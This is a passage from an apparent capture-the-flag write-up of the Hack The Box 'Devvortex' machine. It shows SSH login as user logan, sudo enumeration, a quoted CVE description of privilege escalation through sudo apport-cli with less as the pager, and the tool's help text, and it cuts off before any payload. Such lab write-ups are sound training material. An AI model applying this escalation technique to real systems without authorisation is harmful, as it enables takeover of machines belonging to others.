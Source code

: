 I then SSHed into the box using these new credentials:
![](../../../assets/htb/devvortex/devvortex.ssh.logan.png)
```
cat users.txt
bbb1****************ef4a
```

## Privilege Escalation "rogan" -> "root"
The first thing I did as a user was to list logan's sudo privileges:
```
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
I could run `/usr/bin/apport-cli` with sudo, but needed to figure out how to exploit it. Quick research revealed a CVE:
```
A privilege escalation attack was found in apport-cli 2.26.0 and earlier which is similar to CVE-2023-26604. If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege. It is extremely unlikely that a system administrator would configure sudo to allow unprivileged users to perform this class of exploit.
```
This was exactly my case, so I started exploring.
```
logan@devvortex:~$ sudo /usr/bin/apport-cli
No pending crash reports. Try --help for more information.
logan@devvortex:~$ sudo /usr/bin/apport-cli --help
Usage: apport-cli [options] [symptom|pid|package|program path|.apport/.crash file]

Options:
  -h, --help            show this help message and exit
  -f, --file-bug        Start in bug filing mode. Requires --package and an
                        optional --pid, or just a --pid. If neither is given,
                        display a list of known symptoms. (Implied if a single
                        argument is given.)
  -w, --window          Click a window as a target for filing a problem
                        report.
  -u UPDATE_REPORT, --update-bug=UPDATE_REPORT
                        Start in bug updating mode. Can take an optional
                        --package.
  -s SYMPTOM, --symptom=SYMPTOM
                        File a bug report about a symptom. (Implied if symptom
                        name is given as only argument.)
  -p PACKAGE, --package=PACKAGE
                        Specify package name in --file-bug mode. This is
                        optional if a --pid is specified. (Implied if package
                        name is given as only argument.)
  -P PID, --pid=PID     Specify a running program in --file-bug mode. If this
                        is specified, the bug report will contain more
                        information.  (Implied if pid is given as only
                        argument.)
  --hanging             The provided pid is a hanging application.
  -c PATH, --crash-file=PATH
                        Report the crash from given .apport or .crash file
                        instead of the pending ones in /var/crash. (Implied if
                        file is given as only argument.)
  --save=PATH           In bug filing mode, save the collected information
                        into a file instead of reporting it. This file can
```